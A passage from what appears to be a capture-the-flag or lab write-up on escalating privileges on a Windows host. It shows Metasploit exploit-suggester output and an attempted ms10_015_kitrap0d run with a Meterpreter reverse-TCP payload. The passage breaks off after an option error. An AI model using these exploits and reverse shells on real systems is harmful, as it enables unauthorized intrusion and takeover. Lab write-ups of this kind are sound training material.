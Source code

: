 ```
[*] 10.10.10.5 - 29 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

There are several possible vulnerabilities we can try. I went through a couple that sounded interesting that gave me nothing until trying __ms10_015_kitrap0d__:

```
msf5 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > show options 

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  2                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf5 exploit(windows/local/ms10_015_kitrap0d) > run

[-] Exploit failed: Msf::OptionValidateError The following options failed to validate: SESSION.
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/ms10_015_kitrap0d) > show options 

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
```